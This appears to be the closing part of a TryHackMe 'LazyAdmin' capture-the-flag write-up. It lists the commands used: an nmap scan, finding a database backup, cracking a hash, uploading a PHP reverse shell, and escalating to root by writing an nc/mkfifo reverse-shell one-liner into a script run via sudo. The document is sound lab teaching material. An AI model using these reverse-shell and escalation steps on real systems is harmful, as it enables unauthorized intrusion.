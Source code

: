 ```bash
```

**Room completed!**

![](https://github.com/KnowCybersecurity/TryHackMe-Writeups/blob/main/TryHackMe%20CTF%20Writeups/Assets/TryHackMe%20-%20LazyAdmin.png)

# Command History
1. `nmap -sC -sV {TARGET-IP} > {FILENAME1}.txt`
2. `cat {FILENAME1}.txt`
3. `dirb http://{TARGET IP} > {FILENAME2}.txt`
4. `cat {FILENAME2}.txt`
5. `firefox "http://{TARGET IP}/content/inc`
6. `firefox "http://{TARGET IP}/content/inc/mysql_backup/"`
7. `cd ~/Downloads`
8. `ls`
9. `cat {BACKUP FILE}.sql`
10. `firefox "https://crackstation.net/"`
11. `firefox "http://{TARGET IP}/content/as"`
12. `firefox "http://10.10.165.242/content/as/?type=ad"`
13. `firefox "http://{TARGET IP}/content/inc/ads"`
14. `git clone https://github.com/pentestmonkey/php-reverse-shell`
15. `ls`
16. `cd php-reverse-shell`
17. `ls`
18. `mousepad php-reverse-shell.php`
19. `firefox "http://10.10.165.242/content/as/?type=ad"`
20. `nc -lvnp {PORT NUMBER}`
21. `firefox "http://10.10.165.242/content/inc/ads/"`
22. `ls /`
23. `ls /home`
24. `cat /home/{USER}`
25. `cat /home/{USER}/{USER FLAG}.txt`
26. `sudo -l`
27. `cat /home/{USER}/{FILENAME3}.pl`
28. `cat /etc/{FILENAME4}.sh`
29. `ls -li /etc/{FILENAME4}.sh`
30. `echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {MACHINE IP} {PORT NUMBER} >/tmp/f" > /etc/copy.sh`
31. `nc -lvnp {PORT NUMBER}`
32. `sudo /usr/bin/perl /home/itguy/backup.pl`
33. `whoami`
34. `ls /root`
35. `cat /root/{ROOT FLAG}.txt`

# Dissecting Some Commands
`nmap -sC -sV {TARGET-IP} > {FILENAME1}.txt`
+ `-sC` enables the use of default scripts during the scan, which runs a set of commonly used scripts against the target IP to try to find any vulnerabilities
+ `-sV` enables version detection, which attempts to determine the sevice and version information of the open ports
+ `> {FILENAME1}.txt` redirects the results into a text file
  